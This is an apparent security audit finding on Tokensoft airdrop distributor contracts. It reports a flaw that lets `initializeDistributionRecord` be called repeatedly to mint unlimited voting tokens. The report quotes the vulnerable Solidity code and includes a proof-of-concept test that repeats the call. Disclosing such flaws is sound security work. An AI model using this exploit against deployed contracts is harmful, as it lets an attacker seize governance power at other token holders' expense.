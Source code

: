Harsh Pewter Peacock

high

# Distribution records can be initialised repeatedly to gain infinite voting power

## Summary
All distributor contracts (except BasicDistributor) have `initializeDistributionRecord` function which can be invoked repeatedly to mint infinite ERC20Votes tokens. 

## Vulnerability Detail
The `initializeDistributionRecord` invokes the internal `AdvancedDistributor._initializeDistributionRecord` function which mints the `Internal vote tracker` voting tokens to beneficiary. This minted amount gives the beneficiary a right to vote (on external protocols).

```solidity
  function _initializeDistributionRecord(
    address beneficiary,
    uint256 totalAmount
  ) internal virtual override {
    super._initializeDistributionRecord(beneficiary, totalAmount);

    // add voting power through ERC20Votes extension
    _mint(beneficiary, tokensToVotes(totalAmount));
  }
```
The external `initializeDistributionRecord` of Distributor contracts (for eg, ContinuousVestingMerkle) can be invoked repeatedly to mint infinite (uint256.max) voting tokens.

### POC
This test case was added in `continuousVestingMerkle.test.ts`:
```javascript
  it.only("Bug: Claimers can mint infinite minting tokens", async () => {
    const user = eligible2
    const distributor = partiallyVestedDistributor
    const [index, beneficiary, amount] = config.proof.claims[user.address].data.map(d => d.value)
    const proof = config.proof.claims[user.address].proof

    expect((await distributor.balanceOf(beneficiary)).toBigInt(),).toEqual(0n)

    // initialize once
    await distributor.initializeDistributionRecord(index, beneficiary, amount, proof)
    expect((await distributor.balanceOf(beneficiary)).toBigInt(),).toEqual(5000000000000000000000n)

    // initialize multiple times
    await distributor.initializeDistributionRecord(index, beneficiary, amount, proof)
    expect((await distributor.balanceOf(beneficiary)).toBigInt(),).toEqual(10000000000000000000000n)

    await distributor.initializeDistributionRecord(index, beneficiary, amount, proof)
    expect((await distributor.balanceOf(beneficiary)).toBigInt(),).toEqual(15000000000000000000000n)
  })
```

## Impact
The Tokensoft cross chain airdrop protocol is meant to be a build-on-top protocol which will be used by other protocols to launch their airdrops. Attacker can exploit this bug to gain instant unlimited voting rights of those airdropping tokens and influence governance.

The attack is very easy to perform and has high impact.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L84

## Tool used

Manual Review

## Recommendation
Consider implementing a mechanism by which noone can invoke the `initializeDistributionRecord` external function twice.
